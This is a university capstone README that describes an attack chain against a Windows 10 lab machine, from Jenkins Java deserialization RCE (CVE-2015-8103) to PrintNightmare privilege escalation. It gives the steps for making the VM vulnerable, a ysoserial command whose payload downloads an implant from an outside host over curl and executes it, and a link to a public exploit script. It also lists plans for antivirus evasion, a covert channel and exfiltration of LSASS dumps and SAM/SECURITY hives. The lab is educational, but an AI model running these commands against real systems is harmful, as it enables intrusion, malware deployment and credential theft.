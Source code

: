 
# CS 564 Capstone Project
- Team Cryptid

# Info
- Target             : Windows 10
- Initial Compromise : Java Deserialization in Jenkins <= 1.638 (CVE-2015-8103)
- Priv Esc           : Printer Nightmare (CVE-2021-34527)
- Purpose            : Obtain local/domain credentials + other sensitive files

## Setup vulnerable windows VM
- Install Windows 10 VM
- Disable Windows firewall
- Set the following registry values at HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint:
    - RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    - NoWarningNoElevationOnInstall                 REG_DWORD    0x1
- Donwload and install JDK 11 from https://aka.ms/download-jdk/microsoft-jdk-11.0.22-windows-x64.msi
    - Make sure to enable the option to add JAVA_HOME to the PATH
    - You can run `java --version` in the Windows Command prompt to see if it installed properly
- Download vulnerable Jenkins version from https://get.jenkins.io/war/1.625/
- To run Jenkins, execute `java -jar /path/to/jenkins.war`
- Now Jenkins should be running on port 8080

## Running the Exploit
- Generate serialized java payload: https://github.com/frohoff/ysoserial
    - `wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar`
    - Example payload that downloads an implant from 192.168.187.13:8080 and executes it:
    - `java -jar ysoserial-all.jar CommonsCollections7 "curl 192.168.187.13:8080/implant.exe --output implant.exe && implant.exe" > payload`
    - ``
- Python exploit script:
    - https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py
- Run `python exploit.py [IP] [PORT] /path/to/payload`
    - Might need to run a few times to get the RCE to work
- Other Jenkins vulns here:
    - https://github.com/gquere/pwn_jenkins

## TODO
- Obfuscation
    - Virtual instruction based: https://github.com/JonathanSalwan/Tigress_protection/tree/master
    - Loader + decryptor / packing
    - Lots of ideas here: https://book.hacktricks.xyz/windows-hardening/av-bypass
- Remove / comment out debugging print statements
- Covert comm channel
- What data do we want to exfiltrate?
    - LSASS.exe dump
    - SAM / SECURITY hives
    
 
